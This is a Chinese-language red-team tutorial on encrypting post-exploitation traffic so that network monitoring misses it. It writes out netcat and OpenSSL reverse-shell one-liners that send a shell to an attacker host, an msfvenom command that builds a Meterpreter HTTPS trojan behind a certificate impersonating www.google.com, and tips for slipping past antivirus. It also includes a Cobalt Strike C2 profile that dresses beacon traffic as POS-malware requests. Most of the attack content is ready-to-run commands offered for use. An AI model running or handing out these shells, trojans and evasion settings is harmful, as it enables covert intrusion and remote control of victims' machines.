










# 一、OpenSSL加密反弹Shell

## 前言

在红队的后渗透阶段中, 往往需要反弹shell进行下一步的内网横向渗透, 而这种反弹shell大多数都有一个缺点, 那就是其传输的流量都是明文传输, 相当容易被内网的防火软件所捕捉, 要是蓝队对此流量进行朔源分析, 很容易就能复现攻击的整个流程


例如此处用netcat反弹Shell进行测试, 首先在攻击机(kali,192.168.47.134)监听本机6666端口

```
nc -lvp 6666
```

	


在目标主机(win7,192.168.47.149)连接攻击机并反弹一个CmdShell

```
nc 192.168.47.134 6666 -e cmd 
```

	


随后可在攻击机接收反弹的CmdShell, 输入`ipconfig`进行测试		

	


在攻击机使用wireshark抓取攻击机与目标主机之间的传输数据包, 并追踪其TCP流, 可发现是明文数据

	

	

​		

## OpenSSL的介绍

**OpenSSL** 是一个开源的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上

其主要库是以C语言所写成，实现了基本的加密功能，实现了SSL与TLS协议。OpenSSL 可以运行在OpenVMS、 Microsoft Windows以及绝大多数类Unix操作系统上(包括Solaris，Linux，Mac OS X与各种版本的开放源代码BSD操作系统)。

它也提供了一个移植版本，可以在IBM i(OS/400)上运作


## OpenSSL下载安装

### Windows安装

Windows版本下载地址: https://slproweb.com/products/Win32OpenSSL.html

若你的windows系统是64位, 则按下图所示选择即可

		

​	

### Linux安装

1.下载并安装OpenSSL

```
# wget https://www.openssl.org/source/openssl-1.1.1s.tar.gz --no-check-certificate
# tar -xzvf openssl-1.1.1s.tar.gz
# cd openssl-1.1.1s
# mkdir /usr/local/openssl
# make
# make install
```


2.创建软链接

```
# ln -s /usr/local/openssl/bin/openssl /usr/bin/openssl
```


3.查看openssl版本验证是否安装成功

```
#openssl version
```


## OpenSSL使用流程

### 1.生成自签名证书

在攻击机输入如下命令生成自签名证书, 此处采用的是RSA加密方式; 随后会要求输入证书信息, 直接一路回车即可

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

> 命令语法: openssl req -x509 -newkey rsa:4096 -keyout [key文件] -out [cert文件] -days 365 -nodes




### 2.反弹加密Shell

#### Linux客户端

在攻击机创建服务端, 监听本机的4444端口

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```


在linux客户端输入如下命令进行反弹shell

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.47.134:4444 > /tmp/s; rm /tmp/s
```

> 命令语法: `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [服务端IP]:[监听端口] > /tmp/s; rm /tmp/s`

	


随后攻击机接收到反弹回来的shell

	

​	

#### Windows客户端

与Linux客户端不一样的是, Windows客户端需要在攻击机用两个shell分别创建两个服务端来对接, 这两个服务端可以是相同IP不同端口

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 6666
```

> 命令语法: `openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]`
>


随后返回客户端输入如下命令, 意思是从`192.168.47.134:4444`获取命令发送给cmd执行, 然后将执行结果返回给`192.168.47.134:6666`

```
openssl s_client -quiet -connect 192.168.47.134:4444 | cmd.exe | openssl s_client -quiet -connect 192.168.47.134:6666
```

> 命令语法: `openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]`
>

	


随后在攻击机接收到反弹的shell

	

​	

## 抓包分析	

在攻击机使用wireshark抓包分析, 可发现攻击机和目标主机使用TLS1.2协议进行加密通讯

		

## 参考文章

- https://wolke.cn/post/4904f19c.html

- https://www.baidu.com/link?url=B1XZ3Z_yv67wYryFZ9-VR1KudgOuTujBq-03j__ojpRuiqVftM-y9lKjP62I2RQLvt-rOAH2YL6MCa_Xbv9Fe8Ia3ZUyItouKGHoXUYJJJi&wd=&eqid=91b9c7ba0001d3c4000000066366171a


# 二、MSF流量加密

## 前言

现代企业内网通常会部署流量审计服务来检测潜在的安全威胁，如后门特征和行为特征。为了绕过这些检测，加密Metasploit流量是一个很好的方法。

实际上，Metasploit的某些payload已经内置了加密功能，例如`reverse_https`和`reverse_tcp_tls`。这些payload在与监听器建立连接时会使用SSL/TLS加密，这有助于保护流量免受嗅探和分析


## 申请ssl证书

### 方法1:官网申请(需域名)

这里推荐使用cloudflare.com来申请ssl证书。点击左上角的网站，添加你的域名，此处我的域名是在godaddy申请的

	

然后选择Free

		


按照它给定的步骤，修改你域名的域名服务器




将域名的域名服务器修改成cloudflare的

	

		


随后进入快速入门指南，全部选项都勾选上			

	


点击`SSL/TLS->源服务器`,点击创建证书


证书有效期选择15年

		


将源证书框的内容复制到ssl.crt, 私钥框的内容复制到ssl.key

		


在kali使用cat命令将两个文件合并成ssl.pem文件: `cat ssl.crt ssl.key > ssl.pem`， `ssl.pem`的内容如下图所示

	


### 方法2:Openssl创建

在攻击机Kali输入如下命令生成`www..google.com.pem`证书文件，

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
-subj "/C=UK/ST=London/L=London/O=Development/CN=www.google.com" \
-keyout www.google.com.key \
-out www.google.com.crt && \
cat www.google.com.key www.google.com.crt > www.google.com.pem && \
rm -f www.google.com.key www.google.com.crt
```

> - `req`：生成证书请求（Certificate Request）。
> - `-new`：生成一个新的证书请求。
> - `-newkey rsa:4096`：生成一个新的 RSA 私钥，并将其与证书请求一起生成。
> - `-days 365`：证书有效期为 365 天。
> - `-nodes`：生成的私钥不加密。
> - `-x509`：生成一个自签名的 X.509 格式的证书，而不是生成证书请求。
> - `-subj "/C=UK/ST=London/L=London/O=Development/CN=www.google.com"`：指定证书的 Subject 字段。这里使用了一个虚构的示例，其中 `CN` 字段被设置为 `www.google.com`，在 SSL 握手过程中用于验证服务器的身份。
> - `-keyout www.google.com.key`：将生成的私钥保存到文件 `www.google.com.key` 中。
> - `-out www.google.com.crt`：将生成的自签名证书保存到文件 `www.google.com.crt` 中。
>
> 最后，使用 `cat` 命令将 `www.google.com.key` 和 `www.google.com.crt` 合并成一个 PEM 格式的文件 `www.google.com.pem`。然后，使用 `rm` 命令删除生成的私钥和证书文件，只保留 PEM 格式的文件


在当前目录查看生成的证书文件: `cat www.google.com.pem`

	

​	

## MSF步骤

### 1.创建MSF木马

在证书文件所在目录输入如下命令生成msf木马

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.47.134 LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=www.google.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o msf.exe
```

> PayloadUUIDTracking：启用UUID跟踪，这使得每个生成的payload具有唯一的标识符，有助于在多个会话中对不同payload进行区分
> HandlerSSLCert：启用SSL证书验证
>
> PayloadUUIDName：设置payload的UUID名称


### 2.MSF开启监听

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_winhttps
payload => windows/meterpreter/reverse_winhttps
msf5 exploit(multi/handler) > set lhost 192.168.47.134
lhost => 192.168.47.134
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > set handlersslcert /root/www.google.com.pem
handlersslcert => /root/www.google.com.pem
msf5 exploit(multi/handler) > set stagerverifysslcert true
stagerverifysslcert => true
```


Meterpreter 中有一个称为 "stdapi" 的组件，它提供了一个功能丰富的命令行界面，可以用来在目标系统上执行各种操作。在msf监听的设置里，默认是自动加载stdapi的，这很有可能会被杀软察觉到，因此建议在设置监听时添上`set autoloadstdapi flase`， 等目标返回meterpreter会话后，再在meterpreter命令行输入`load stdapi`将其加载

	


访问`https://192.168.47.134`, 查看此网页的证书

	

	


### 3.受害机上线

将msf木马丢到受害机中运行, 随后msf服务端收到目标主机的meterpreter会话

> 注意: 经过测试, 操作系统为win7的受害机不会上线


### 4.抓包分析

先在meterpreter会话命令行随便输条指令, 这里输入`getuid`

	


随后打开wireshark抓取msf服务端与受害机之间的流量数据包, 可发现此流量使用了TLS协议加密




追踪TCP流, 在tls加密前这里的数据是明文数据, 而现在是加密后的乱码数据

	


# 三、CS流量加密

## 前言

虽然Cobalt Strike流量自带SSL证书, 不过大多数情况下都会被杀软查杀, 因此需要自行配置证书来进行加密


## 操作步骤

### 1.生成证书

在kali上使用`keytool`生成证书，随后要求输入口令, 此处我设置的口令是qq123456, 口令要记住, 因为后面配置c2.profile文件用得上

后面的内容除了最后一处填写y, 其他的随便填即可, 不过这些信息后面也要填写

```
keytool -genkey -alias henry -keyalg RSA -validity 36500 -keystore henry.store
```

> -alias和-keystore后面接的参数后面也会用到

	


### 2.创建c2.profile文件

```
#设置样本名字
set sample_name "tryblog POS Malware";  
 
set sleeptime "5000"; # use a ~30s delay between callbacks
set jitter    "10";    # throw in a 10% jitter
 
set useragent "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Gecko/20100101 Firefox/24.0";
 
#设置证书，注意以下内容得和你之前生成的证书一样
https-certificate {
    set CN       "test"; 
    set O        "test";   
    set C        "test";
    set L        "test";
    set OU       "test";  
    set ST       "test";
    set validity "365";
}

#设置，修改成你的证书名称和证书密码
code-signer{
    set keystore "henry.store";
    set password "qq123456";
    set alias "henry";
}
 
#指定DNS beacon不用的时候指定到IP地址
set dns_idle "8.8.4.4";
 
#每个单独DNS请求前强制睡眠时间
set dns_sleep "0";
 
#通过DNS上载数据时主机名的最大长度[0-255]
set maxdns    "235";
 
http-post {
    set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";
 
    client {
        header "Accept" "text/plain";
        header "Accept-Language" "en-us";
        header "Accept-Encoding" "text/plain";
        header "Content-Type" "application/x-www-form-urltrytryd";
 
        id {
            netbios;
            parameter "id";
        }
 
        output {
            base64;
            prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";
            print;
        }
    }
 
    server {
        output {
            print;
        }
    }
}
 
http-get {
    set uri "/updates";
 
    client {
        metadata {
            netbiosu;
            prepend "user=";
            header "Cookie";
        }
    }
 
    server {
        header "Content-Type" "text/plain";
 
        output {
            base64;
            print;
        }
    }
}
```


### 3.验证c2.profile文件

将创建的`c2.profile`和生成的证书文件`henry.store`放到Cobalt Strike文件目录中, 随后执行如下命令验证证书

```
./c2lint c2.profile 
```

	

	


### 4.修改CS团队服务器的默认端口

修改`teamserver`文件, 然后将鼠标光标移动至文件末尾, 将默认端口50050修改成其他的, 此处我修改成12345

	


### 5.启动CS团队服务器

直接通过cs.profile文件启动CS团队服务器,也可以加个nohup命令在后台启动团队服务器

```
./teamserver 192.168.47.134 qq123456 ./c2.profile 
```

```
nohup ./teamserver 192.168.47.134 qq123456 ./c2.profil
```

	


## 参考文章	

- https://www.nctry.com/1655.html#title-3

- https://www.yisu.com/zixun/501167.html

